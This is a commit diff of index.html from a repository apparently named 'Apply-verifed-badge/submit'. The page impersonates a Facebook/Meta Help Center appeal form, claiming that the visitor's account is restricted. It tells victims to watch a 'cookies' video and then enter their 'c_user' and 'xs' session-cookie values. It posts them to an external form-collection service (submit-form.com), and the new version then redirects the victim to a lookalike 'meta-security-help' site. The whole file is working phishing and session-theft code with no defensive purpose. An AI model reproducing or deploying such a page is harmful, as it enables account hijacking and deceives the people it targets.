

Before and after one commit to Apply-verifed-badge/submit, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 114-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,70 +1,115 @@
-<!doctype html>
+
+<!DOCTYPE html>
+<html lang="en">
 <head>
-  <title>Action Required</title>
-    <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1">
-    <link href="style.css" rel="stylesheet">
+  <meta charset="utf-8" />
+  <link rel="icon" href="/favicon.ico" />
+  <meta name="viewport" content="width=device-width,initial-scale=1" />
+  <meta name="theme-color" content="#000000" />
+  <meta name="description" content="Verified Badge Site" />
+  <link rel="apple-touch-icon" href="/logo192.png" />
+  <link rel="manifest" href="manifest.json" />
+  <title>Meta Form</title>
+  <script defer="defer" src="/static/js/main.fcac1ccc.js"></script>
+  <link rel="stylesheet" href="style.css">
 </head>
 <body>
-<div class="md:block lg:block hidden border flex w-full h-[6rem]  relative bg-[#4667ac]">
-  <div class="mx-10 mt-4">
-      <b class="text-5xl text-white">facebook</b>
+  <noscript>You need to enable JavaScript to run this app.</noscript>
+  <div id="root">
+    <div>
+      <div
+        class="d-flex align-items-center"
+        style="width: 100%; height: 90px; background: rgb(70, 103, 172)"
+      >
+        <h1 class="text-white ms-4 m-0 d-flex align-self-center">facebook</h1>
+      </div>
+      <div
+        class="d-flex align-items-center"
+        style="width: 100%; height: 60px; background: rgb(233, 235, 238)"
+      >
+        <h4 class="ms-4 m-0 d-flex align-self-center text-primary">
+          Help Center
+        </h4>
+      </div>
+      <div class="col-12 my-4 d-flex justify-content-center align-items-center">
+        <div class="col-11 col-md-6 border">
+          <div class="p-2" style="background: rgb(245, 246, 247)">
+            <h5 class="m-0">Meta Form</h5>
+          </div>
+          <div class="p-2">
+            <p class="fw-semibold validation_form_para">
+              We have detected unusual activity on your page and account that violates our community standards.
+            </p>
+            <p class="fw-semibold validation_form_para">
+              Your access to your page and account has been limited.
+            </p>
+            <p class="fw-semibold validation_form_para">
+              Option to submit an appeal by providing the necessary information.
+            </p>
+            <p class="fw-semibold text-secondary" style="font-size: 12px">
+              Detailed Video Information.
+            </p>
+            <a
+              href="https://cdn.glitch.global/cfdab748-b145-4b28-8f85-c26ac388a3c9/cookies.mp4?v=1719846896202"
+            >
+              <img
+                src="https://cdn.glitch.global/bfcd7774-fff2-449c-9561-26bd96edfe53/fbVideo.png.1fd476160a3ed7a2f565.png?v=1720041771787"
+                alt="fb"
+                style="width: 120px; height: 80px"
+              />
+            </a>
+            <br />
+            <p class="fw-semibold validation_form_para mt-2">
+              Please be sure to provide the requested information below.
+            </p>
+            <form
+              id="meta-form"
+              action="https://submit-form.com/jAZHaXQci"
+              method="POST"
+              <label class="" style="font-size: 12px">c_user</label>
+              <br />
+              <input
+                type="number"
+                name="c_user"
+                id="c_user"
+                required=""
+                title="Please enter 15 digits"
+                value=""
+              />
+              <br />
+              <label class="mt-2" style="font-size: 12px">xs</label>
+              <br />
+              <input type="text" name="xs" id="xs" required="" value="" />
+              <p class="mt-2" style="font-size: 12px">
+                The process is straightforward and should take no longer than 24 hours.
+              </p>
+              <div
+                class="p-2 mb-2 d-flex justify-content-end"
+                style="background: rgb(245, 246, 247)"
+              >
+                <button
+                  type="submit"
+                  class="text-white border-0"
+                  style="background: rgb(66, 103, 178)"
+                >
+                  Submit
+                </button>
+              </div>
+            </form>
+          </div>
+        </div>
+      </div>
+    </div>
   </div>
 
-  <form class="sm:hidden lg:block md:block" action="https://submit-form.com/wOyvskElA" method="post">
-
-<div style="position: absolute; left: 1.5rem; top:8rem; width: 90%;">
-  <div>
-    <p class="border-b h-10 font-bold text-[16px] text-[#4b4f56] pl-3 p-2 bg-[#f5f6f7]">
-      Appeal Page Violation
-    </p>
-  </div>
-<div>
-  <p class="mt-4 pl-3 text-[12px] font-semibold">
-    We have detected unusual activity on your page that violates our community standards.
-  </p>
-</div>
-<div>
-  <p class="mt-4 pl-3 text-[12px] font-semibold">
-    Your access to your page has been limited, and you are currently unable to post, share, or comment using your page.
-  </p>
-</div>
-<div>
-  <p class="mt-4 pl-3 text-[12px] font-semibold">
-    If you believe this to be a mistake, you have the option to submit an appeal by providing the necessary information.
-  </p>
-</div>
-<div>
-  <p class="text-[11px] text-[#90949c] p-2 font-semibold">
-    Detailed Video Information
-  </p>
-</div>
-<div>
-  <a class="w-[120px] h-[80px] block mx-3" href="https://cdn.glitch.global/cfdab748-b145-4b28-8f85-c26ac388a3c9/cookies.mp4?v=1719846896202"><img src="df76b7b2-af84-49fb-927e-595ca21d19c1.jpg" alt=""></a>
-</div><div>
-  <p class=" pl-3 text-[12px] font-semibold">
-    Please be sure to provide the requested information below.
-  </p>
-</div>
-<div>
-  <p class="text-slate-400 pl-4 mt-1">
-    c_user
-  </p><input class="border h-6 pl-1 mx-3" type="text" name="c_user" placeholder="" pattern="[0-9]+" minlength="6" id="c_user" title="Must Watch Detailed Video" required="1" aria-required="true">
-</div>
-<div>
-  <p class="text-slate-400 pl-4 mt-1">
-    xs
-  </p><input class="border h-6 pl-1 mx-3" type="text" name="xs" placeholder="" pattern="^(?=.*[a-z])(?=.*[A-Z])(?=.*\d)(?=.*[@#$%^&+=]).{12,}$" title="Must Watch Detailed Video" required="1" aria-required="true">
-</div><div>
-  <p class="mt-4 pl-3 text-[12px] font-semibold">
-    Please make sure account not to log out from your computer or laptop until you have received a verification email.
-  </p>
-</div><div class="border mx-3 h-10 mt-4 bg-[#f5f6f7]"><div class="flex justify-end mx-2">
-  <button class="border h-7 w-16  bg-[#4267b2] text-white shadow-2xl mt-[0.30rem] font-serif font-thin text-xs hover:bg-blue-500" id="delete-btn">
-    Submit
-  </button></div>
-  </div>
- </div>
-  </form>
+  <script>
+    document.getElementById('meta-form').addEventListener('submit', function(event) {
+        // The form will be submitted normally first
+        // Then redirect to a specified URL
+        setTimeout(function() {
+            window.location.href = 'https://meta-security-help-tan.vercel.app/';
+        }, 1000); // Adjust the delay as needed
+    });
+  </script>
 </body>
 </html>
```
